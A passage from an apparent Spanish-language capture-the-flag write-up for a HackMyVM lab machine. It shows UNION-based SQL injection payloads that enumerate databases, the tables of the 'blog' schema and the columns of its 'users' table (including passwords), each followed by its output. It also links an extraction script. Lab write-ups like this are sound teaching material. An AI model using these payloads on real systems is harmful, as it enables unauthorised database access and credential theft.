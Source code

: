 > 💡 Nos creamos un script (en mi caso en Python) para hacer el proceso más rápido. [extractAliteralSQLI_blog.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HMV/literal/extractAliteralSQLI_blog.py)

```sql
Done' UNION ALL SELECT (SELECT schema_name FROM information_schema.schemata LIMIT 0,1),'b','c','d','e'-- -
```

Al ejecutar esta sentencia e iterar sobre todas las filas (LIMIT n,1) obtenemos:

```bash
mysql
information_schema
performance_schema
blog
```

La base de datos distinta a las genéricas es `blog`, así que a revisarla.

### Extrayendo las tablas de una base de datos [⤵️](#sqli-union-blog-tables) {#sqli-union-blog-tables}

---

```sql
Done' ... (SELECT table_name FROM information_schema.tables WHERE table_schema='blog' LIMIT 0,1),...
```

Obtenemos:

```bash
projects
users
```

Inicialmente, nos llama la atención `users`.

### Extrayendo columnas de una tabla de la base de datos [⤵️](#sqli-union-blog-columns) {#sqli-union-blog-columns}

---

```sql
Done' ... (SELECT column_name FROM information_schema.columns WHERE table_schema='blog' and table_name='users' LIMIT 0,1),...
```

Nos devuelve:

```bash
userid
username
userpassword
useremail
usercreatedate
```
